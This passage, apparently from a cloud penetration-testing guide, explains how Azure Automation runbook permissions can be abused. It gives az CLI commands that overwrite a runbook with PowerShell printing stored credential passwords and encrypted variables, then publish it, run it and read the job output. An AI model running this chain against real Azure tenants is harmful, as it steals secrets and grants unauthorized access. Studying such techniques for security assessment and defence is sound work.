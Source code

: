 The permission **`Microsoft.Automation/automationAccounts/runbooks/draft/write`** allows to modify the code of a Runbook in the Automation Account using:

```bash
# Update the runbook content with the provided PowerShell script
az automation runbook replace-content --no-wait \
  --resource-group Resource_Group_1 \
  --automation-account-name autoaccount1 \
  --name AzureAutomationTutorialWithIdentity \
  --content '$creds = Get-AutomationPSCredential -Name "<credential-name>"
$runbook_variable = Get-AutomationVariable -Name "<encrypted-variable-name>"
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password'
```

Note how the previous script can be used to **leak the useranmd and password** of a credential and the value of an **encrypted variable** stored in the Automation Account.

The permission **`Microsoft.Automation/automationAccounts/runbooks/publish/action`** allows the user to publish a Runbook in the Automation Account using so the changes are applied:

```bash
az automation runbook publish \
  --resource-group <res-group> \
  --automation-account-name <account-name> \
  --name <runbook-name>
```

The permission **`Microsoft.Automation/automationAccounts/jobs/write`** allows the user to run a Runbook in the Automation Account using:

```bash
az automation runbook start \
  --automation-account-name <account-name> \
  --resource-group <res-group> \
  --name <runbook-name> \
  [--run-on <name-hybrid-group>]
```

The permission **`Microsoft.Automation/automationAccounts/jobs/output/read`** allows the user to read the output of a job in the Automation Account using:

```bash
az rest --method GET \
  --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Automation/automationAccounts/<automation-account-name>/jobs/<job-name>/output?api-version=2023-11-01"
```

If there aren't Runbooks created, or you want to create a new one, you will need the **permissions `Microsoft.Resources/subscriptions/resourcegroups/read` and `Microsoft.Automation/automationAccounts/runbooks/write`** to do it using:

```bash
az automation runbook create --automation-account-name <account-name> --resource-group <res-group> --name <runbook-name> --type PowerShell
```
